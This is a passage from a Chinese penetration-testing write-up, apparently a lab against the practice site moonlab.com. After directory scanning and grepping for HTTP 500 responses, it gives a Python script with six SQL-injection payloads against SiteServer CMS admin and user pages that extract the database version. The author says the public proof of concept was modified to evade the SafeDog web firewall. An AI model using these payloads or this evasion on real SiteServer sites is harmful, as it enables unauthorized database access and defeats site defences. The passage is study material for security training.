 #### 2.4 访问特殊状态码地址 

`一遍让脚本跑这，一遍看看特殊状态码的url，命令`

> 
`“ cat write.txt | grep 500 ”`


使用火狐打开，[moonlab.com - ](http://www.moonlab.com/siteserver) 

 

### 三、对目标进行渗透测试

#### 3.1测试Web服务器

3.1.1 查找siteserver对应漏洞

`上边通过目录扫描，发现目标网站使用siteserver。去网上找找有没有现场的poc`

> 
- `在这里找到https://github.com/w-digital-scanner/w9scan/tree/master/plugins/siteserver。`


**将利用源代码复制下来，进行魔改，直接利用的话会被网站安全狗拦截。**

```
import requests
#定义payload到列表之中
ps=[
        'siteserver/service/background_taskLog.aspx?Keyword=test%%27%20and%20convert(int,(char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version))=1%20and%202=%271&amp;DateFrom=&amp;DateTo=&amp;IsSuccess=All',
        'usercenter/platform/user.aspx?UnLock=sdfe%27&amp;UserNameCollection=test%27)%20and%20char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version=2;%20--',
        'siteserver/bbs/background_keywordsFilting.aspx?grade=0&amp;categoryid=0&amp;keyword=test%27%20and%20char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version=1%20and%202=%271',
        'siteserver/userRole/background_administrator.aspx?RoleName=%27%20and%20char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version=1%20and%201=%271&amp;PageNum=0&amp;Keyword=test&amp;AreaID=0&amp;LastActivityDate=0&amp;Order=UserName',
        'siteserver/userRole/background_user.aspx?PageNum=0&amp;Keyword=%27%20and%20char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version=1%20and%201=%27&amp;CreateDate=0&amp;LastActivityDate=0&amp;TypeID=0&amp;DepartmentID=0&amp;AreaID=0',
        'siteserver/bbs/background_thread.aspx?UserName=test&amp;Title=%27%20and%201=char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version%20and%201=%27&amp;DateFrom=&amp;DateTo=&amp;ForumID=0',
        ]
for p in ps:
    #构建测试payload
    url='http://www.moonlab.com/'+p
    res = requests.get(url)
    #判断是否存在漏洞并将对应测试url打印输出
    if res.status_code==500 and "GAOJIMicrosoft" in res.text:
        print(url)
        print(res.text)
```
